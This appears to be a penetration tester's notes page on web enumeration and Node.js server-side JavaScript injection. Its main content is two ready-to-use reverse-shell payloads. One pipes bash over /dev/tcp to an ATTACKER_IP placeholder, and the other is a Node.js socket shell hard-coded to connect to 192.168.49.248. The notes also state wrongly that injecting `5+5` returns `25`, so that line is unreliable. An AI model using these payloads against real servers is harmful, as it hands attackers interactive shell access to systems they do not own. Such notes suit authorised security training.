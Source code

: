 # Misc


Always remember to searchsploit the name of whatever web-framework or CMS framework the website uses.


## Registration on websites

Often, we will be registering a new user on whatever site we are enumerating.
Consider running a registration from Burp so we can investigate the registration web traffic.

And always check your cookies after you have logged in.
Sometimes this will tell you how the site is managing admins from normal users.


## NodeJS and javascript injection

For simple NodeJS applications, remember to check if you can inject javascript to be run on the backend of the application.
If this isn't blind, you can do something like inputting `5+5` in the input parameter, and see if you extract the result `25`.
If this is the case, try to get a reverse shell with this:

```
require('child_process').exec('bash+-c+"bash+-i+>%26+/dev/tcp/${ATTACKER_IP}/${ATTACKER_PORT}+0>%261"')
```


or:

```
(function(){
 var net = require(“net”),
 cp = require(“child_process”),
 sh = cp.spawn(“/bin/bash”, []);
 var client = new net.Socket();
 client.connect(21, “192.168.49.248”, function(){
 client.pipe(sh.stdin);
 sh.stdout.pipe(client);
 sh.stderr.pipe(client);
 });
 return /a/;
})();
```
